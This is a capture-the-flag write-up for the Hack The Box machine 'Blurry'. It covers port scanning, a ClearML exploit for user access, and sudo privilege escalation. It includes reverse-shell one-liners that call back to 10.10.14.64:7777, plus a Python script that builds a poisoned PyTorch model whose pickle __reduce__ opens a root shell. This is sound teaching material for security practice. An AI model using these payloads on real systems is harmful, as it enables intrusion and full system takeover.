

# Blurry

<figure><figcaption></figcaption></figure>

## Enumeration

```bash
nmap -v -A -O -p- -Pn blurry.htb -oN nmap
```

```bash
Nmap scan report for blurry.htb (10.10.11.19)
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/24%OT=22%CT=1%CU=40681%PV=Y%DS=2%DC=T%G=Y%TM=6679
OS:2FB1%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CS
OS:T11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 16.373 days (since Sat Jun  8 01:37:50 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=251 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   50.12 ms 10.10.14.1
2   50.30 ms blurry.htb (10.10.11.19)

NSE: Script Post-scanning.
Initiating NSE at 10:34
Completed NSE at 10:34, 0.00s elapsed
Initiating NSE at 10:34
Completed NSE at 10:34, 0.00s elapsed
Initiating NSE at 10:34
Completed NSE at 10:34, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.15 seconds
           Raw packets sent: 65655 (2.893MB) | Rcvd: 65616 (2.628MB)

```

### Port 80

There is a redirect to `app.blurry.htb` when we hit the port 80, so add the subdomain to /ect/hosts and start the enumeration:

<figure><figcaption></figcaption></figure>


ClearML is a lifecycle management platform for machine learning (ML) and experiments. It provides tools to track, manage and automate machine learning projects, making it easier for data science and engineering teams to manage their experiments, data and models.


Insert any username and login.

Previously we have seen a redirect to `app.blurry.htb` so we can try to enumerate different subdomains using `gobuster`:

<figure><figcaption></figcaption></figure>

#### There are so many functionalities, so starts viewing which projects are already created:

<figure><figcaption></figcaption></figure>

This project highlighted with red is composed by different automated task that runs occasionally:

<figure><figcaption></figcaption></figure>

From here we can extract useful information about the box and a possible user of the machine -> jippity.

## Exploitation (user)

Searching online for some ClearML vulns, we will find it:



We just need to setup the python venv and install dependencies:


```bash
python3 -m venv .venv    
source .venv/bin/activate
python3 -m pip install -r requirements.txt
```


and then we can run the exploit:

<figure><figcaption></figcaption></figure>

We need to set up the ClearML client by copy\&paste the API configuration from Settings of our account:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Then run the exploit and obtain the reverse shell as `jippity` user and the user flag:

<figure><figcaption></figcaption></figure>

Obtain a second cleaner reverse shell using `pwncat-cs`. This is necessary due to log output inside the first reverse shell:

<figure><figcaption></figcaption></figure>

```bash
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```

```bash
sh -i >& /dev/tcp/10.10.14.64/7777 0>&1
```

<figure><figcaption></figcaption></figure>

To mantain an access and avoid to exploit the ClearML every time we can dump SSH key of jippity:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Privilege escalation (root)

There isn't any other interesting users to exploit so go further with root:

<figure><figcaption></figcaption></figure>

The more simple command `sudo -l` from SSH session or the LinPeas script are our friends:

<figure><figcaption></figcaption></figure>

We can run as root the bash script `evaluate_model` by passing as a parameter any .pth (PyTorch trained model) file present inside the /models folder.


```bash
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

/usr/bin/mkdir -p "$TEMP_DIR"

file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")

    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
    
fi
```


We have write permission inside the /models directory so:

<figure><figcaption></figcaption></figure>

We need to install `torch` because it will allow us to create a model containing bash spawning process.  This script defines a PyTorch model with malicious intent by overriding the `__reduce__` method to execute a shell command when the model is deserialized. The `__reduce__` method is a special method used by Python's `pickle` module to define how an object is reduced to a serialized form. By overriding this method, the script executes a malicious command during deserialization.


```python
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, evil): # Passes input through the linear layer.
        return self.dense(evil)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.64 7777 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'evil.pth')
```


Run the script and upload the `evil.pth` to victim machine under `/models`.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Now run the sudo command and enjoy the root shell :tada::

```bash
sudo /usr/bin/evaluate_model /models/evil.pth
```

<figure><figcaption></figcaption></figure>


